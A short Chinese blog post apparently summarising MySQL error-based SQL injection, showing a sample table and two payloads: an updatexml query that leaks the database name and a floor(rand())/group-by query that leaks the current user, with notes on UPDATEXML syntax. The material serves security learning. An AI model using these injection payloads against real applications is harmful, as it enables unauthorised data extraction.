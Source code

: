 ```yaml
---
layout: post
title: "MySQL报错注入小结"
subtitle: "MySQL报错注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**updatexml 报错注入**

```mysql
select * from users where id=1 and (updatexml(1,concat(0x3a,(select database())),1));
```



**解释：**

语法：UPDATEXML (XML_document, XPath_string, new_value);

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串)

第三个参数：new_value，String格式，替换查找到的符合条件的数据

**作用：改变文档中符合条件的节点的值。**





**floor 报错注入**

```mysql
select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```





[其他参考](http://www.mamicode.com/info-detail-2366760.html)